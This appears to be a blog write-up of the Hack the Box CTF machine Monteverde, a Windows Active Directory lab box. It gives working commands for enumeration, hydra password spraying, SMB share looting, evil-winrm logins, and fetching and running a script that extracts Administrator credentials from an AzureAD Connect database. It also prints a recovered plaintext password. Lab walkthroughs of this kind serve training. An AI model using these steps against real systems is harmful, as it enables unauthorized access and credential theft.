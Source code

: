 +++
author = "Nick"
categories = ["hack the box", "CTF", "ldap", "evil-winrm", "AzureADSync", "easy", "enum4linux", "hydra", "smb", "smbclient", "medium", "windows"]
date = 2020-06-13T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/01/info.png"
slug = "hack-the-box-monteverde"
summary = "Welcome back! Today's write-up will be for the Hack the Box machine Monteverde. This is listed as a medium Windows machine."
tags = ["hack the box", "CTF", "ldap", "evil-winrm", "AzureADSync", "easy", "enum4linux", "hydra", "smb", "smbclient", "medium", "windows"]
title = "Hack the Box - Monteverde"

+++


Welcome back! Today's write-up will be for the Hack the Box machine Monteverde. This is listed as a medium Windows machine.

Let's jump in!

As always, we start with our standard `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.172`

Here are our results:
```
Nmap scan report for 10.10.10.172
Host is up (0.19s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-15 20:40:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49778/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/15%Time=5E1F7660%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 10m35s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-15T20:43:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 15 15:35:20 2020 -- 1 IP address (1 host up) scanned in 1691.42 seconds
```

We see that we have a bunch of ports open. We see some SMB, RPC, DNS and LDAP. To further our enumeration we will use `enum4linux`. We'll also add `megabank` to our hosts file for further usage.

Command:
`enum4linux -A 10.10.10.172`

This returns a large set of results. The key things we get from this are:

* The domain.
* A user list.
* Domain group memberships.

We'll also try to null authenticate to the SMB port via `smbclient` or `smbmap` but we get no results.

Much like we did in the machine Resolute, we will make a few LDAP queries to see if there is any data stored in the user's AD variables.

Command:
`ldapsearch -x -h megabank -b 'dc=megabank,dc=local' "(&(objectClass=user))" `

We'll take these and put them into a list for use later. I created two lists, one with the domain prefix and another without. We didn't see any data in the AD fields associated with the user accounts. Now we have a few options, with a username list we can try and brute force our way in or continue to look for leaky data and services. Why not both?

First we'll try to use the account name as a password, then we'll try a password list like rockyou. For this we'll use `hydra`. 

Command:
`hydra -L users-nodm.lst -P users-nodm.lst 10.10.10.172 ldap2`

We use the `-L` to specify a username list. 
The `-P` is for a password list.
Then the IP followed by the service we want to use.

![](/images/2020/01/monte_user.gif)

We get a match! `SABatchJobs`:`SABatchJobs`. 

Well, I did not expect that. Normally I would continue with Rockyou.txt but the box is already pretty unstable connection wise, so we'll opt out of that for now and see where we can get with these service account credentials.

Since we have a set of credentials and we know that `WinRM` is running we can try to leverage `evil-winRM`. We try to login but we aren't able to. Next we'll want to try to use these authenticated credentials in order to enumerate the previously spotted `SMB` port.

Command:
`smbmap -u SABatchJobs -p SABatchjobs -H 10.10.10.172`

![](/images/2020/01/monte_smb.gif)

We get a few shares back - C$, E$, azure_uploads, NETLOGON, SYSVOL and users$.

The users$ share is read only, so we'll first start by connecting to this and seeing if there are any credentials saved by the users in thier home directories.

Command:
`smbclient -U SABatchJobs //10.10.10.172/users$`

![](/images/2020/01/image-46.png)

We start looking into each users directory. We only find one file, azure.xml, in mhope's home directory. We download the file with `get`. When we open it up, we see some credentials!

![](/images/2020/01/image-47.png)

Armed with this potential password, we'll try to authenticate as mhope.

Command:
`evil-winrm -i 10.10.10.171 -u mhope -p 4n0therD4y@n0th3r$`

![](/images/2020/01/image-48.png)

We head over to mhope's Desktop and get our User.txt flag. We start to enumerate internally now. We see that `net user mhope` shows him as part of the Azure admins.

![](/images/2020/01/image-49.png)

I then like to run [WindowsEnum.ps1](https://github.com/absolomb/WindowsEnum) on a machine to get a basic idea of my rights and what I can see from the current user. Right away we see Microsoft AADSync. Since I've spent time as a System Engineer, I knew this was the immediate path I would take.

There is a powershell script called [Azure-ADConnect](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) that will extract the password from the ADSync database. You can also read more on it [here](https://blog.xpnsec.com/azuread-connect-for-redteam/) as well.

The first thing we do is `curl` or `wget` the script.

Command:
`wget https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1`

Next we upload the file via our Evil-WinRM session.

Command:
`upload Azure-ADConnect.ps1`

Next we import the module. Then supply the database location and name and let it rip!

Command:
`import-module ./Azure-ADConnect.ps1`
`Azure-ADConnect -server 127.0.0.1 -db ADSync`

![](/images/2020/01/monte_admin_cred.gif)

Now we have the Administrator credentials, we can try and log back in via Evil-WinRM to see if they work.

![](/images/2020/01/image-50.png)

They do work! We log in, head over to the Administrator's Desktop and snag the root.txt flag!

Hopefully everyone was able to take something away from this blog post. If so, think about sending me some respect over on HTB. Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



